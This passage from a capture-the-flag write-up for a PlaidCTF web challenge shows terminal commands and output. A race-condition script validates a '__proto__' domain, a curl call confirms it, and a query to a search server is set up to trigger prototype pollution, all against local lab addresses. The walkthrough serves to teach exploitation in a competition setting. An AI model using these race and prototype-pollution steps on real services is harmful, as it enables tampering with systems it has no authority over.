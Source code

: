 Lets try it out:

```shell
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ ./validate-race.sh http://172.19.0.2:6284 a05c8268-8f89-45b3-8095-4736f583a762 __proto__
{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}{"error":"Something went wrong"}
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://172.19.0.2:6284/site/' -H 'Cookie: user_token=a05c8268-8f89-45b3-8095-4736f583a762'
[{"domain":"__proto__","pending":false},{"domain":"__proto__","pending":true,"validationCode":"VALID"}]
```

Note that `VALID` as the validation code is a temporary change we made to the code for testing purposes.  It would seem we were successful since `pending` is `false`.  While we're at it, let's go ahead and add our own validated domain that can be scraped, something like an ngrok url that forwards to a locally running server that we can modify as needed.  We can register the site through the UI, and then use our script to validate it.  We could also alternatively just use a valid domain we own.

### Prototype Pollution

Now we need to run a query on the site search server to achieve the prototype pollution.  You can do it through the UI, or via the command line:

```shell
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://172.19.0.3:6285/?domain=__proto__&q=isStale'                                                                                                                                                127 ↵
<html>
    <head>
        <!-- I submit for your consideration that this is not an XSS problem -->
        <link rel="preconnect" href="https://fonts.gstatic.com">
        <link href="https://fonts.googleapis.com/css2?family=Lato:ital,wght@0,100;0,300;0,400;0,700;1,100;1,300;1,400;1,700&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/static/main.css">
        <script src="/static/main.js"></script>
    </head>
    <body>
        <div class="content">
            <div class="head">
                <div class="logo">Wowza!</div>
                <div class="search-bar">
                    <input type="text" id="domain-search" placeholder="Domain">
                    <div class="divider"></div>
                    <input type="text" id="query-search" placeholder="Query">
                </div>
            </div>
            <div class="result-list"></div>
        </div>
    </body>
</html>
```
